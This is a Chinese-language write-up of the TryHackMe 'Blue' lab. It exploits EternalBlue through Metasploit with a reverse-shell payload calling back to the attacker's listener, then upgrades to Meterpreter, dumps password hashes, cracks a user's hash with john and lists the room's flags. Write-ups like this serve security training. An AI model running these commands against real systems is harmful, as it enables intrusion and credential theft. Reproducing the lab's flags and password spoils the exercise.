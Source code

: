 # Blue Writeup
> URL : https://tryhackme.com/room/blue
IP : 10.10.158.118

## Recon
- Q: How many ports are open with a port number under 1000?
	- `nmap -p 1-1000 10.10.158.118`
	- 回傳 3 個
		- 135/tcp open  msrpc
		- 139/tcp open  netbios-ssn
		- 445/tcp open  microsoft-ds
- 老規矩習慣的 `nmap -A 10.10.158.118` 看看
	- ![](https://i.imgur.com/Dxug1il.png)
- Q: What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
	- nmap 看到的 Windows7 版本拿去 Google
		- `windows 7 professional 7601 service pack 1 exploit`
	- 就會出現 `MS17-010` EternalBlue 

## Metasploit
- 開啟 `msfconsole`
	- 搜尋 `search MS17-010`
	- 選擇 `exploit/windows/smb/ms17_010_eternalblue`
- 輸入 `use exploit/windows/smb/ms17_010_eternalblue`
	- 輸入 `show options`
	- 設定需要的 options
		- `set RHOSTS 10.10.158.118`
		- `set LHOST 10.14.7.198`
- 輸入 `set payload windows/x64/shell/reverse_tcp`
- 輸入 `exploit`
	- 成功拿到 shell!
	- ![](https://i.imgur.com/7zwssuS.png)
	- 輸入 `whoami` 可以發現，其實已經是 `system` 權限了

## 使用 Meterpreter
- 存參
	- https://paper.seebug.org/29/
- 簡單來說，Meterpreter是提供給"後滲透"使用
	- 也就是說，比起cmd有更多方便的功能醬子
	- 例如 `getsystem` 可自動提權
	
- Google `shell_to_meterpreter`
	- 取得 `post/multi/manage/shell_to_meterpreter`
- `use post/multi/manage/shell_to_meterpreter`
	- `show options`
	- `set LHOST 10.14.7.198`
	- 確定剛剛我們 ctrl + z 的 session
		- 輸入 `sessions`
		- ![](https://i.imgur.com/6g0oAXX.png)
	- `set SESSION 1`
	- `run`
		- ![](https://i.imgur.com/HkESyhT.png)
- 輸入 `sessions`
	- 可以看到目前有兩個 session
	- ![](https://i.imgur.com/0OfEmDn.png)
	- 選第 2 個 
		- 輸入 `sessions 2`
	- 進入 shell
		- 輸入 `shell`
		- 輸入 `whoami`
			- 確定目前自己是 `nt authority\system`
	- 按下 Ctrl + Z 回到 Meterpreter 選單
		- 輸入 `ps` 觀察目前系統執行的 process
			- ![](https://i.imgur.com/jxtBWA8.png)
		- 尋找最後一個 process
		- ` 3056  692   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe`
		- 輸入 `migrate 3056` 遷移到 PID 上
- 輸入 `hashdump`
	- 可以看到不同使用者的 hash
		- ![](https://i.imgur.com/ErNJNT7.png)
		- 看起來一般的使用者應該是 Jon
	- 把 `Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::` 存成 txt 用 john 來破
		- `john jon.txt --format=NT --wordlist=/opt/rockyou.txt`
		- 1 秒鐘就爆出來ㄌ `alqfna22`

## 各種 Flag
- Flag1? This flag can be found at the system root.
	- `type flag1.txt`
		- `flag{access_the_machine}`
- Flag2? This flag can be found at the location where passwords are stored within Windows.
	- 他說 Flag 存在 Windows 存密碼的地方
	- Windows 的密碼 hash 存在 `C:\Windows\System32\config`
	- 裡面有 `type flag2.txt` 
		- `flag{sam_database_elevated_access}
- flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 
	- 其實我覺得這裡有一點點暴力，但這一題真的有點通靈
	- 已經發現前兩隻 flag 檔名是 `flag1.txt` , `flag2.txt`
	- 所以我想說直接在 C槽 根目錄爆搜
		- `dir flag*.txt /s /p`
		-  ![](https://i.imgur.com/StiISuC.png)
		- 然後就噴出來ㄌ www
		- `flag{admin_documents_can_be_valuable}`
		- 這也提醒我們，可以觀察使用者的 Documents 或 Desktop
			- 但據我所知大多數的台灣人並沒有用 "我的文件" ㄉ習慣 www
